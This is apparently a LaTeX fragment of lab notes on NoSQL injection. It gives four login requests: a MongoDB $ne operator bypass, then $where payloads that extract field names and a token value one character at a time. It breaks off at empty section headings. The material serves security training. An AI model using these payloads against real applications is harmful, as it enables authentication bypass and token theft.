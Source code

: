 \documentclass[12pt]{article}
\begin{document}
\subsection{Lab Example 2: Extract Unknown Fields}

\begin{lstlisting}
# Step 1: Test operator injection
POST /login HTTP/1.1
{"username":"carlos","password":{"$ne":"invalid"}}

# Step 2: Test $where injection
POST /login HTTP/1.1
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "0"}

# Step 3: Extract field names
POST /login HTTP/1.1
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "Object.keys(this)[1].match('^.{0}a.*')"}

# Step 4: Extract token value
POST /login HTTP/1.1
{"username":"carlos","password":{"$ne":"invalid"}, "$where": "this.YOURTOKEN.match('^.{0}a.*')"}
\end{lstlisting}

\section{Methodology}

\subsection{Testing Workflow}
\end{document}
